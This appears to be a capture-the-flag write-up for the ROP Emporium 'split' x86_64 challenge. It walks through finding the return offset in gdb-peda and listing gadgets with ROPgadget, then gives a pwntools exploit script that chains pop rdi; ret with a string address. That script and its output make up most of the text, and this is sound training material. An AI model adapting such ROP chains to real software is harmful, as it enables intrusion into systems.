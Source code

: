 # chehckpoint

instead of 32bit program to pass their args though stack, this version of program pass the top 6 args with registers -> `rdi\rsi\rdx\rcx\r8\r9`, the rest of args use stack to pass


# build weapon

**calculate ret offset**
```shell
gdb-peda$ pattern offset AA0AAFAAbAA1
AA0AAFAAbAA1 found at offset: 40
```

**gadget get**

```shell
➜  x86_64 ROPgadget --binary ./split --only "pop|ret"   
Gadgets information
============================================================
0x00000000004007bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007be : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007c0 : pop r14 ; pop r15 ; ret
0x00000000004007c2 : pop r15 ; ret
0x00000000004007bb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007bf : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400618 : pop rbp ; ret
0x00000000004007c3 : pop rdi ; ret      # need rdi for one arg
0x00000000004007c1 : pop rsi ; pop r15 ; ret
0x00000000004007bd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040053e : ret
0x0000000000400542 : ret 0x200a

Unique gadgets found: 12
```

**exp**
```python
from pwn import *

pipe = process("./split")

pop_rdi_ret = 0x4007c3
useful_string = 0x601060
syscall = 0x400560

payload = "A" * 40
payload += p64(pop_rdi_ret)
payload += p64(useful_string)
payload += p64(syscall)



print(pipe.recvuntil("> "))
pipe.sendline(payload)
print(pipe.recvall())
```

```shell
➜  x86_64 python ./exp.py 
[+] Starting local process './split': pid 56331
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> 
[+] Receiving all data: Done (44B)
[*] Stopped process './split' (pid 56331)
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
